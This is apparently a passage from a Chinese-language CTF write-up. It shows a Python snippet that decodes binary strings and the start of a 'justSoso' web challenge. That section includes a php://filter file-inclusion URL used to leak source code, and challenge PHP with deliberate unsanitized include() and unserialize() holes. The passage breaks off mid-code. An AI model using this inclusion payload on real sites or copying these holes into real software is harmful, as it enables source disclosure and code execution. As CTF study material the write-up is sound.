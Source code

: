 ```
00110101
01100101
00110000
00110111
01111101
```

写个脚本

```
f = open('data.txt','r')
data = ''
for i in f.readlines():
	tmp = '0b'+i
	# print tmp
	data += chr(int(tmp,2))
print data
```

### justSoso

http://d466a1d4c1214b3181516b834f0de419f413fd793ae942d0.changame.ichunqiu.com/index.php?file=php://filter/read=convert.base64-encode/resource=index.php


通过文件包含拿到hint.php和index.php的源码

```
<html>
<?php
error_reporting(0); 
$file = $_GET["file"]; 
$payload = $_GET["payload"];
if(!isset($file)){
	echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
	die('hack attacked!!!');
}
@include($file);
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
    	    die('stop hacking!');
    	    exit();
        }
    }
    $payload = unserialize($payload);
}else{ 
   echo "Missing parameters"; 
} 
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>

<?php  
class Handle{ 
    private $handle;  
    public function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
```